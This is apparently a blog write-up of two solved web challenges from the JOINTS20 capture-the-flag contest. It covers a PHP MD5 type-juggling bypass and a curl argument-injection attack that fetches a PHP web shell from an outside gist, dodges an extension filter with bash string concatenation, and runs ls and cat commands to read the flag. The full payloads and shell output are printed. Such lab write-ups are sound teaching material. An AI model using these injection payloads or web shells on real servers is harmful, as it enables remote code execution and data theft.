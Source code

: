 ```yaml
---
layout: blog
title: JOINTS20 Web Writeups
date: 2020-05-08T18:31:53.905Z
---
```

JOINTS20 Writeup (WEB)

<!--more-->

This is my writeup on JOINTS20, I could not play it on time so I play the game after it's over

## `ezStringMatching`

from the start, there is nothing suspicious in the web, so I tried to check the network tab on my browser and see this in the header or you can just simply use curl --head CTF.joints.id:40002  to see the header of the request:

```text
HTTP/1.1 200 OK
Host: ctf.joints.id:40002
Date: Mon, 04 May 2020 05:25:04 GMT
Connection: close
X-Powered-By: PHP/7.2.30
Debug: ?debug=v
Content-type: text/html; charset=UTF-8
```

there is debug option on the request, so let's try to identify  ctf.joints.id:40002/?debug

```php
<?
if (!empty($_POST["string1"]) || !empty($_POST["string2"])) {
  $xxx = $_POST["string1"];
  $yyy = $_POST["string2"];
  if ($xxx === $yyy) {
    echo "<center> <p>Match bosqquee!!</p> </center>";
  } else {
    if (md5($xxx) == md5($yyy)) {
      echo "<center> $flag </center>";
    } else {
      echo "<center> <p>Not Match bosqquee!!</p> </center>";
    }
  }
}
```

We can see on the source code, we have to match `md5($xxx) == md5($yyy)` how we can do that? 

Remember that PHP has type juggling because of the loose comparison (using `==` instead of `===`), you can see here for the cheat sheet. 

When using `==` or loosely comparison, the comparison between the operand just see if the value has the same value on the other hand if we use the strict comparison (using `===`) it not only compares the value but also the type. 

TL;DR: we can abuse the == operation, how?

The md5() operation calculates the hash of the value, if the hash computed starts with "0e" (or "0..0e") only followed by numbers, PHP will treat the hash as a float.  \
\
The hash value of 240610708 is 0e462097431906509019562988736854 and the hash value of QNKCDZO is 0e830400451993494058024219903391 AND THE PHP WILL TREAT THE COMPUTED HASH THAT STARTS WITH 0e  AS A FLOAT, DAMN. 

> JOINTS20{b4bytyp3ju99lin9*md5*}

## `Twitter Collection`

this page provides a URL box that we can feel with a link and scrap the image if it succeeds it will send alert:

and it pops up at the bottom of the page, and it stored on the cookie I think? when I flush the cookie, the image disappears, poor waifu.

and the important thing that is the image is downloaded locally to the server, mine is here `http://ctf.joints.id:10001/downloads/9eed2d697fb5a3fa35e8d1832471a6a8464d49fe/099a95c45237eaa2243500bf145da79534ec8460.jpg` so can we just upload any file?

I try to use some kind of special character in the URL i tried there is two response one is 

and one is (using `"` and `-`)

bingo, there is  500 internal error  

and the preview of the error said that

`curl:(22)TherequestedURLreturnederror:404`

we can assume the download process is using curl for you who don't know that is curl you can always check it with man curl or curl --help. The command will be something like this curl <link>.

this is what I'm trying:

* normal query:  `https://pbs.twimg.com/media/EV2FFNpUYAAFSxk?format=jpg`  → success uploaded
* using another link (contains my RCE script) `https://gist.githubusercontent.com/natkingchloe/be32d35e3e28bae77660267fb43de5bb/raw/f28431b71f501a9c75a529a3ff7c09964ca1b95e/rce.php` → error, PHP file detected
* using another link (contains my RCE script, but change the extension) `https://gist.githubusercontent.com/natkingchloe/be32d35e3e28bae77660267fb43de5bb/raw/f28431b71f501a9c75a529a3ff7c09964ca1b95e/rce` → error, the URL must be from pixiv?

when I'm trying curl, we can use curl to download multiple files, for example:

```
curl "https://pbs.twimg.com/media/EV2FFNpUYAAFSxk?format=jpg" -o name_of_file_a.jpg "https://pbs.twimg.com/media/EV2FFNpUYAAFSxk?format=jpg" -o name_of_file_b.jpg
```

* trying to upload multiple files the one being from pixiv `https://pbs.twimg.com/media/EV2FFNpUYAAFSxk?format=jpg -o a https://gist.githubusercontent.com/natkingchloe/be32d35e3e28bae77660267fb43de5bb/raw/f28431b71f501a9c75a529a3ff7c09964ca1b95e/rce -o b` → error, https error?
* until this time I'm trying with different payload and I unexpectedly found the correct payload, this is the payload I used: `https://pbs.twimg.com/media/EV2FFNpUYAAFSxk?format=jpg" "https://gist.githubusercontent.com/natkingchloe/be32d35e3e28bae77660267fb43de5bb/raw/f28431b71f501a9c75a529a3ff7c09964ca1b95e/rce" -o "rce.ph""p` → success, uploaded RCE

Note: 

* Bypassing the PHP filter using concatenate feature in bash

```shell
~
❯ echo "rce.php"
rce.php

~
❯ echo "rce.ph""p"
rce.php
```

* `-o` means output to a file and the argument after that is the file name with the extension

and viola:

```shell
❯ curl "http://ctf.joints.id:10001/downloads/3e0766a83b992daee763e4c629190a1a434de474/rce.php"
<br />
<b>Warning</b>:  system(): Cannot execute a blank command in <b>/var/www/downloads/3e0766a83b992daee763e4c629190a1a434de474/rce.php</b> on line <b>2</b><br />


❯ curl "http://ctf.joints.id:10001/downloads/3e0766a83b992daee763e4c629190a1a434de474/rce.php?cmd=ls"
cfe8e2872fe2d82029e367879c9f782bee55da0d.jpg
d0b581aff1128cbcb5fb53a9025c7d3f09315abf.jpg
d9d65b15c6f896fb5211124cea5e923f06bd1caa.jpg
dfc6c84d54c615dc3a547503e3fd616c82c2adb8.jpg
ec.xx
rce.php


❯ curl "http://ctf.joints.id:10001/downloads/3e0766a83b992daee763e4c629190a1a434de474/rce.php?cmd=ls ../.."
apakah_ini_benderanya
collect.php
downloads
favicon.ico
get.php
index.php
license-free.txt
scripts
session.php
styles
styles


❯ curl "http://ctf.joints.id:10001/downloads/3e0766a83b992daee763e4c629190a1a434de474/rce.php?cmd=cat ../../apakah_ini_benderanya"

JOINTS20{ya_benar_ini_benderanya_uwu}JOINTS20{ya_benar_ini_benderanya_uwu}
```